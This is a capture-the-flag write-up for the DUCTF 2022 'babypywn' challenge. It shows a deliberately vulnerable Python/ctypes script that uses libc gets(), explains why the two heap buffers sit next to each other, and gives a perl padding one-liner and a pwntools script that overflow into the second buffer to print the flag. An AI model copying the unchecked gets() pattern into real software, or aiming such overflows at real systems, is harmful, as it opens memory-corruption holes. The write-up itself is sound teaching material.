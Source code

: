 # babypywn

For this challenge we are given the source code for a python file called babypwn.py running on the remote server.

```
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'DUCTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```

From a first glance this looked something to do with buffer overflow so I ran it locally and used the addressof() and saw the buffers are 512 bytes apart indicating they are alligned one after another.


![memory addresses](/ductf_2022/babypywn/memory.png)


Looking at the Memory addresses of the buffers I thought they would grow lower as is on the stack.
But after some research I learned that python objects are placed on the heap hence the addressing grows upwards. This means we could overflow from the memory of buf1 into buf2.  


  ![stack image](https://courses.engr.illinois.edu/cs225/fa2022/assets/notes/stack_heap_memory/memory_layout.png)

Lets have a look at that line libc.gets(buf1), some googling reveals what it is and provides a description. 
![gets man page](/ductf_2022/babypywn/gets.png)
The last line "no check for buffer overrun is performed" is music to our ears.

We can use perl to generate a buffer 512 bytes long "perl -E 'say "a" x 512' appending 'DUCTF' to the end should cause the flag to be outputed.

We can then use pwn tools to send our buffer and get the flag.

```
from pwn import *
c = remote('0.0.0.0', 8080)
c.sendline(b'aaaaaaaaaa...'+ b'DUCTF')
print(c.recvline().decode())
```